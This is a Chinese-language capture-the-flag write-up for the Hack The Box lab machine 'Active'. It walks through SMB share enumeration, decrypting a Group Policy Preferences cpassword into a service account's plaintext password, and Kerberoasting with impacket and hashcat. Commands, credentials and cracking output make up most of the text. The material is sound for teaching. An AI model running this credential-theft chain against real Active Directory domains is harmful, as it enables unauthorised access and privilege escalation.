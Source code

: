 ```yaml
---
title: Active（windows smb共享硬盘）
categories:
- training
tags:
- training
- port 445
---
```

参考资料：[smbclient](https://whale3070.github.io/tools/2016/12/12/x/)

## scan

```
53/tcp    open  domain        Microsoft DNS 6.1.7601
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2019-01-02 04:44:03Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49169/tcp open  msrpc         Microsoft Windows RPC
49171/tcp open  msrpc         Microsoft Windows RPC
49182/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## analysing
参考资料：[windows active directory](https://zh.wikipedia.org/wiki/Active_Directory)

`53/tcp    open  domain        Microsoft DNS 6.1.7601`
以上结果说明了，这是一台域名服务器（Domain Name System server），active.htb

搜索一下“Microsoft DNS 6.1.7601”，即可得知系统版本——Windows 2008 R2 Standard version

## smb协议探测（Server Message Block protocol）
445端口是用来共享文件夹或者打印机的
```
nmap --script safe -p445 10.10.10.100

smbclient -L //10.10.10.100

smbmap -H 10.10.10.100
```
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/8.PNG)

smbclient //10.10.10.100/Replication
WARNING: The "syslog" option is deprecated
protocol negotiation failed: NT_STATUS_CONNECTION_RESET

## smbmap
SMBMap - Samba Share Enumerator

用smbmap -h可以查看帮助文档

-R是递归列出某目录
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/9.PNG)

```
获得信息：
	.\\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\
	dr--r--r--                0 Sat Jul 21 18:37:44 2018	.
	dr--r--r--                0 Sat Jul 21 18:37:44 2018	..
	-r--r--r--              533 Sat Jul 21 18:38:11 2018	Groups.xml
```
下载文件: `smbmap -H 10.10.10.100 -R Replication -A Groups.xml`
```
获得信息2：
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
userName="active.htb\SVC_TGS"
```
## 破解cpassword

参考资料：[Exploiting GPP - Credential Storage in Groups.xml File](https://www.youtube.com/watch?v=ks4aNbArOtk)
[工具下载**gpprefdecrypt.ps1**](https://github.com/reider-roque/pentest-tools/blob/master/password-cracking/gpprefdecrypt/gpprefdecrypt.ps1)

```
cmd.exe 右键以管理员身份运行
cd C:\Users\whale\Desktop
powershell.exe ./gpprefdecrypt.ps1 edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/10.PNG)
`GPPstillStandingStrong2k18`

#### 问题
期间出现windows不允许执行ps1脚本。
解决办法：以管理员身份运行powershell，输入以下命令，然后输入Y。
```
set-executionpolicy remotesigned
```
#### 方法二：
kali工具破解：
```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
## 域用户提权
`smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100`
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/11.PNG)

可以发现，多了三个目录可读。依次检查这些目录，获得了user.txt。
`smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100 -R Users -A user.txt`

**Kerberoasting**
[GetUserSPNs.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetUserSPNs.py)

Kerberoasting是从票据分发服务中破解hash，来获得明文密码。

Kerberos身份验证使用服务主体名称（SPN）来标识关联的帐户。

```
ldapsearch -x -h 10.10.10.100 -p 389 -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 servicePrincipalName

locate GetUserSPNs.py

/usr/share/doc/python-impacket/examples/GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out

```
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/12.PNG)

```
apt install exim4-config
apt-get install pocl-opencl-icd
apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev
apt-get upgrade hashcat 更新了一下hashcat，然后就可以正常运行了
hashcat -m 13100 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force --potfile-disable

john --format:krb5tgs GetUserSPNs.out --wordlist=/usr/share/wordlists/rockyou.txt
```
![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/13.PNG)
如果字典里没有正确的密码，hashcat会提示
```
[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit => 
```
这个时候就要换字典，再次尝试，或者放弃。

![14](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/14.PNG)
## 总结

工作组和域
[工作组和域的区别](https://www.douban.com/note/527276260/)

域一般用在比较大的网络里，需要一台域控服务器，其他计算机要互相访问就要经过它。

工作组比较小（网上邻居），没有控制彼此访问的服务器。

下次继续学习windows域渗透。。。



